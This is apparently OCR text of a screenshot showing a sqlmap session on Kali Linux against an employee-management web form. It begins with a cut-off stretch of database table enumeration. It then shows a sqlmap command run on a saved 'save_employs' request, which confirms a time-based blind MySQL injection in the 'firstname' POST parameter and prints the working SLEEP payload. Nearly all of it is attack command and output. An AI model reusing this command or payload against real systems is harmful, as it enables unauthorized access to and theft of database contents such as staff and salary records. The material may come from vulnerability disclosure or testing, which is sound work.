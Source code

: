 [13:59:41] [INFO] retrieved: 
[13:59:43] [INFO] adjusting time delay to 1 second due to good response times
EVENTS
[14:00:03] [INFO] retrieved: FILES
[14:00:20] [INFO] retrieved: GLOBAL_STATUS
[14:01:09] [INFO] retrieved: GLOBAL_VARIABLES
[14:01:43] [INFO] retrieved: KEYWORDS
[14:02:13] [INFO] retrieved: KEY_CACHES
[14:02:40] [INFO] retrieved: KEY_COLUMN_USAGE
[14:03:27] [INFO] retrieved: PARAMETERS
[14:04:00] [INFO] retrieved: PARTITIONS
[14:04:30] [INFO] retrieved: PLUGINS
[14:04:54] [INFO] retrieved: PROCESSLIST
[14:05:31] [INFO] retrieved: PROFILING
[14:05:56] [INFO] retrieved: REFERENTIAL_CONSTRAINTS
[14:07:18] [INFO] retrieved: ROUTINES
[14:07:45] [INFO] retrieved: SCHEMATA
[14:08:10] [INFO] retrieved: SCHEMA_PRIVILEGES
[14:08:59] [INFO] retrieved: SESSION_STATUS
[14:09:49] [INFO] retrieved: SESSION_VARIABLES
[14:10:25] [INFO] retrieved: STATISTICS
[14:10:56] [INFO] retrieved: SQL_FUN^C

-------------------------
┌──(kali㉿kali)-[~]
└─$ sqlmap -r save_employs --batch --dbms mysql --threads 10 --dbs --tables               
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.7#stable}                                                                            
|_ -| . [)]     | .'| . |                                                                                           
|___|_  ["]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:41:49 /2022-10-09/

[14:41:49] [INFO] parsing HTTP request from 'save_employs'
[14:41:50] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:41:50] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:41:50] [WARNING] provided value for parameter 'department_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:41:50] [WARNING] provided value for parameter 'position_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:41:50] [WARNING] provided value for parameter 'salary' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:41:50] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=sql' AND (SELECT 3175 FROM (SELECT(SLEEP(5)))erEm) AND 'LLaz'='LLaz&middlename=&lastname=map&department_id=&position_id=&salary=
---
[14:41:50] [INFO] testing MySQL
[14:41:50] [INFO] confirming MySQL
[14:41:50] [INFO] the back-end DBMS is MySQL